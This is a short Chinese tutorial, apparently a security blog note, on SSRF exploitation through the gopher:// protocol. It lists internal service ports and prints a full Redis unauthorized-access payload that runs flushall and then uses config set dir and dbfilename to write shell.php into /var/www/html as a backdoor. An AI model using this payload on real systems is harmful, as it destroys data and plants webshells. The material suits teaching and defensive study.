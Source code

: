 ```yaml
---
title: Gopher 协议
---
```

# Gopher 协议

在 http 出现之前，访问网页需要输入的是 

gopher://gopher.baidu.com/ 

而不是

https://www.baidu.com/

而它被代替的原因一方面是收费，另一方面的原因是它固化的结构没有HTML网页灵活

利用 gopher 的方式有 FTP 爆破，REDIS，MYSQL，FAST CGI，XXE



## 一些常用服务

Redis	6379

FPM	  9000

Smtp	 25

Mysql	3306

常用的协议

dict 、gopher

以下为经典的 Redis 未授权访问，以及常用 payload 的生成



## 利用方式

比如常见的，web 有一个 curl 的功能，然后可以访问内网靶机，就可以用类似的方式进行命令传递

( payload 每经过一次传递就会被解码一次 )

redis

![3](/images/ssrf-gopher/3.png)

Smtp 生成 payload

![1](/images/ssrf-gopher/1.png)

Fpm 生成 payload

![2](/images/ssrf-gopher/2.png)

gopher支持多行。因此要在传输的数据前加一个无用字符。比如 gopher://ip:port/_ 通常用 _ 并不是只能用 _ ，gopher协议会吃掉第一个字符



## 关于 redis

redis 的格式：每一个 *number 代表每一行命令，number 代表每行命令中数组中的元素个数。$number 代表每个元素的长度。

URL解码后可以看到创建 shell 的完整流程

```gopher://127.0.0.1:6379/_*1
$8							//元素长度为8
flushall
*3							//3个元素
$3
set
$1
1
$31

<?php echo "hello world" ?>

*4
$6
config
$3
set
$3
dir
$13
/var/www/html
*4
$6
config
$3
set
$10
dbfilename
$9
shell.php
*1
$4
save
```

即为redis将输入的语句保存在指定位置的php文件中，生成后门

